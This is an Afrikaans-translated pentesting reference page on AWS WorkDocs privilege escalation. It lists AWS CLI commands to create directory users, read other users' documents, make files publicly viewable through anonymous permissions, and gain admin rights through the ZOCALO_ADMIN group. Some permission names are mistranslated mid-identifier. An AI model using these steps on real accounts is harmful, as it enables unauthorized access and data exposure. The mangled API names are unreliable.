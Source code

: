 # AWS - WorkDocs Privesc

## WorkDocs

Vir meer inligting oor WorkDocs, kyk:

{% content-ref url="../aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

Skep 'n gebruiker binne die aangeduide Gids, dan sal jy toegang hê tot beide WorkDocs en AD:

```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```

### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

Die lêers mag sensitiewe inligting bevat, lees hulle:

```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```

### `workdocs:VoegHulpbrongebruikersregteToe`

As jy nie toegang het om iets te lees nie, kan jy dit net toeken.

```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```

### `workdocs:VoegGebruikerByGroep`

Jy kan 'n gebruiker as 'n administrateur maak deur dit in die groep ZOCALO\_ADMIN te stel.\
Volg die instruksies vanaf [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)

Meld aan met daardie gebruiker in workdoc en kry toegang tot die administrateurpaneel in `/workdocs/index.html#/admin`

Ek het nie enige manier gevind om dit vanaf die opdraglyn te doen nie.
